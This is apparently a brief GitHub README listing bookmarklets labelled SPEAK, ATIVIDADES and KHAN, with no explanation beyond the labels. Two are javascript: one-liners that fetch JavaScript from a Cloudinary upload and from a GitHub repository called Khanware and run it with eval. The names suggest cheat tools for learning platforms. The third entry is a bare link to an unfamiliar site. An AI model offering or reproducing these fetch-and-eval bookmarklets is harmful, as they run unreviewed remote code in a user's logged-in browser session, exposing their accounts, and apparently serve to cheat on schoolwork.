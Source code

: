 # sammak3rdb

SPEAK:

javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))

ATIVIDADES:

https://doritus.mmrcoss.tech/

KHAN:

javascript:fetch("https://raw.githubusercontent.com/Niximkk/Khanware/refs/heads/main/Khanware.js").then(t=>t.text()).then(eval);